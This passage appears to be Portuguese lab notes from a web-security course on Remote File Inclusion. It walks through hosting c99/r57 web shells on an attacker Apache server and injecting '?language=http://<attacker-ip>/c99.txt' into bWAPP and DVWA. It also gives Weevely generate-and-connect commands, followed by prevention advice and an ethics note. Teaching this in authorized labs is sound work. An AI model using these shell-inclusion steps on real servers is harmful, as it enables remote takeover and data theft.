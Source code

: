 Figura 26 execução sequencial dos comandos para localizar e ler message.txt e explorar o diretório.

## RFI
### Resumo:
RFI (Remote File Inclusion) permite que uma aplicação inclua arquivos remotos (via URL) quando parâmetros não são validados, possibilitando upload/execução de web shells e backdoors (e.g., c99, r57). Ferramentas como Weevely automatizam criação de web shells.
### Pontos principais:
•	RFI permite carregar e executar código remoto (PHP) no servidor alvo, criando backdoors e shells.
•	Backdoors/web shells (c99, r57, PHP Mini Shell, Weevely) dão interface para executar comandos, navegar e transferir arquivos.
•	Workflow típico: hospedar shell no atacante (Apache), apontar parâmetro vulnerable para o arquivo remoto e acessar a interface da shell.
•	DVWA upload inseguro pode permitir upload de shells; técnica de traversal pode contornar restrições de path.
•	Impacto: controle remoto do servidor, exfiltração de dados, pivot e persistência.
### Resumo do Lab / Procedimentos rápidos:
1. Subir servidor Apache no Kali (sudo systemctl start apache2) e hospedar um PHP shell (ex.: c99.txt renamed) em /var/www/html.
2. No OWASP bwapp, localizar vulnerabilidade RFI/LFI e substituir parâmetro por URL do shell hospedado: ?language=http://<attacker-ip>/c99.txt
3. Acessar a URL injetada para obter interface gráfica do shell e explorar diretórios, executar comandos e editar arquivos (ex.: portal.php).
4. Em DVWA, utilizar funcionalidade de upload para enviar scripts PHP (test PHP), usar traversal para acessar uploads e executar shells (mini shell -> upload c99).
5. Gerar/e usar Weevely: `weevely generate [password] file.php`, fazer upload e conectar: `weevely <url> <password>` para sessão interativa.
### Tarefas:
•	Explorar C99Shell: navegar diretórios do alvo, localizar portal.php e editar conteúdo via interface.
•	Executar R57Shell: incluir e explorar r57shell no DVWA uploads.
•	Weevely: gerar web shell, subir no DVWA e conectar via weevely para sessão interativa.
•	Alterar index.php do DVWA (tarefa de alteração de dados) usando técnicas estudadas.
### Prevenção:
Evitar inclusão de arquivos por URL; validar/whitelist parâmetros, restringir uploads por tipo e extensão, validar conteúdo, configurar permissões rígidas, desabilitar execução em diretórios de upload, usar WAF e monitoramento de integridade.

### Segurança e Ética:
Ferramentas e técnicas mostradas são para fins educacionais e de teste em ambientes autorizados. Uso em alvos reais sem permissão é ilegal.
### Prints da Aula
![Figura 27](./assets/print27.jpeg) 
